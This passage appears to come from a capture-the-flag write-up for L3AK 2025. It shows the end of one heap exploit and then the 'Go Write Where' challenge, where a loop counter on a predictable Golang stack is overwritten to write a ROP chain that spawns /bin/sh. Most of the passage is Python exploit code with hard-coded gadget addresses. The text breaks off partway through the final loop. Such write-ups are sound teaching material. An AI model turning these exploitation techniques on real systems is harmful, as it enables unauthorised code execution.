 ```py
    ret,
    libc.sym.system
)

s(b"CHUNK 1 1 " + payload)

ia()
```
Full exploit can be found here: [exploit.py](/blog/scripts/l3ak25/chunky_threads.py)

### Go Write Where

This challenge is a **Golang** version of challenges with one arbitrary write.
**PIE** is turned off, so we can write some byte value there.

The trick is to notice that the one arbitrary read/write happens inside a for loop,
so if we can change `i`, we get more arbitrary reads/writes.
```c
...
for ( i = 1LL; i > 0; i = prev_i - 1 )
{
    prev_i = i;
...
```
We can change `i` because in **Golang** the stack is actually partially predictable,
looking something like `0xc000???xxx` where `?` is random and `x` is some offset.

![stack](/blog/images/l3ak25/go_stack.png)  

Knowing this, we can change `i` and perform enough arbitrary writes
to write a ROP chain on the stack and get a shell.
```py
i_ptr = int(input("> "), 16) if args.DBG else 0xc00009cdb8
ret_addr = i_ptr + 0x190

pop_rdi = 0x46b3e6
pop_rax = 0x4224c4
mov_rsi_rax = 0x41338f
# 0x000000000047bd2e : pop rdx ; sbb byte ptr [rax + 0x29], cl ; ret
pop_rdx = 0x47bd2e
syscall = 0x40336c
binsh = 0x598f00

payload = flat(
    pop_rdi, binsh,
    pop_rax, 0,
    mov_rsi_rax,
    pop_rax, binsh,
    pop_rdx, 0,
    pop_rax, 0x3b,
    syscall
)

sla(b"r/w): ", b"w")
sla(b"): ", h2b(i_ptr))
sla(b"): ", h2b(len(payload) + 9))

for i, b in enumerate(b"/bin/sh\x00"):
    sla(b"r/w): ", b"w")
    sla(b"): ", h2b(binsh + i))
    sla(b"): ", h2b(b))

for i, b in enumerate(payload):
    print(f"{i}. written")
```